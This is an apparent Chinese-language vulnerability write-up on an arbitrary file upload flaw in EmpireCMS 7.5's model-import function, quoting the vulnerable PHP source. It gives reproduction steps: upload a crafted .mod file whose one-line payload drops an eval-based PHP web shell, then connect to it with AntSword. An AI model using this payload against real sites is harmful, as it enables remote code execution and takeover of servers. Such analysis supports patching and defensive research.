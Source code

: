 EmpireCMS7.5版本中的/e/class/moddofun.php文件的”LoadInMod”函数存在安全漏洞,攻击者可利用该漏洞上传任意文件。

### 源码分析

主要漏洞代码位置

//导入模型

```
`//导入模型``elseif($enews=="LoadInMod")``{` `$file=$_FILES['file']['tmp_name'];` `$file_name=$_FILES['file']['name'];` `$file_type=$_FILES['file']['type'];` `$file_size=$_FILES['file']['size'];` `LoadInMod($_POST,$file,$file_name,$file_type,$file_size,$logininid,$loginin);``}`
```

转到LoadInMod定义

在localhost/EmpireCMS/e/class/moddofun.php找到上传文件的定义

```
`//上传文件` `$path=ECMS_PATH."e/data/tmp/mod/uploadm".time().make_password(10).".php";` `$cp=@move_uploaded_file($file,$path);` `if(!$cp)` `{` `printerror("EmptyLoadInMod","");` `}` `DoChmodFile($path);` `@include($path);` `UpdateTbDefMod($tid,$tbname,$mid);`
```

文件包含

上传文件处使用time().makepassword(10)进行加密文件名

```
`//取得随机数``function make_password($pw_length){` `$low_ascii_bound=48;` `$upper_ascii_bound=122;` `$notuse=array(58,59,60,61,62,63,64,91,92,93,94,95,96);` `while($i<$pw_length)` `{` `if(PHP_VERSION<'4.2.0')` `{` `mt_srand((double)microtime()*1000000);` `}` `mt_srand();` `$randnum=mt_rand($low_ascii_bound,$upper_ascii_bound);` `if(!in_array($randnum,$notuse))` `{` `$password1=$password1.chr($randnum);` `$i++;` `}` `}` `return $password1;``}`
```

下方代码@include($path)直接包含文件，因此可以通过添加创建文件的代码绕过。

### 漏洞复现

来到导入系统模型的页面

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

本地准备一个1.php并改名为1.php.mod，注意这里需要用\$进行转义，存放的数据表名需要填一个数据库内没有的表名，点击上传

```
<?php file_put_contents("getshell.php","<?php @eval(\$_POST[cmd]); ?>");?>
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

导入成功后访问一下生成shell看能不能访问得到，没有报错是可以访问到的，那么证明已经上传成功了

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

再用蚁剑连接即可

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")
